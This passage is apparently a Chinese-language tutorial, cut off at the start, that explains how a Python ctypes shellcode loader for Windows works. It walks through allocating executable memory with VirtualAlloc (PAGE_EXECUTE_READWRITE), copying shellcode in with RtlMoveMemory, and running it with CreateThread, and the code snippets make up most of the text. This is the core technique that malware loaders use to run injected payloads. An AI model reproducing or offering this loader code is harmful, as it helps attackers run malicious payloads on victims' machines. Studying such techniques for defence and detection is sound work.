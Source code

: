 | ctypes.c\_int(0) | 是NULL，系统将会决定分配内存区域的位置，并且按64KB向上取整 |
|---|---|
| ctypes.c\_int(len(shellcode)) | 以字节为单位分配或者保留多大区域 |
| ctypes.c\_int(0x3000) | 是 MEM\_COMMIT(0x1000) 和 MEM\_RESERVE(0x2000)类型的合并 |
| ctypes.c\_int(0x40) | 是权限为PAGE\_EXECUTE\_READWRITE 该区域可以执行代码，应用程序可以读写该区域。 |

具体参考百度百科：<https://baike.baidu.com/item/VirtualAlloc/1606859?fr=aladdin>

将shellcode载入内存
--------------

调用RtlMoveMemory函数，此函数从指定内存中复制内容至另一内存里

RtlMoveMemory函数原型和参数如下

```php
RtlMoveMemory(Destination,Source,Length);
Destination ：指向移动目的地址的指针。
Source ：指向要复制的内存地址的指针。
Length ：指定要复制的字节数。
```

从指定内存地址将内容复制到我们申请的内存中去，shellcode字节多大就复制多大

```php
buf = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)

ctypes.windll.kernel32.RtlMoveMemory(ctypes.c_int(ptr),
                                     buf,
                                     ctypes.c_int(len(shellcode)))
```

创建进程
----

CreateThread将在主线程的基础上创建一个新线程

CreateThread函数原型和参数如下

```php
HANDLE CreateThread(
LPSECURITY_ATTRIBUTES lpThreadAttributes,#线程安全属性
SIZE_T dwStackSize,                     #置初始栈的大小，以字节为单位
LPTHREAD_START_ROUTINE lpStartAddress,  #指向线程函数的指针
LPVOID lpParameter,                     #向线程函数传递的参数
DWORD dwCreationFlags,                  #线程创建属性
LPDWORD lpThreadId                      #保存新线程的id
)
```

创建一个线程从shellcode放置位置开始执行

```php
handle = ctypes.windll.kernel32.CreateThread(ctypes.c_int(0),
                                         ctypes.c_int(0),
                                         ctypes.c_uint64(ptr),
                                         ctypes.c_int(0),
                                         ctypes.c_int(0),
                                         ctypes.pointer(ctypes.c_int(0)))
```
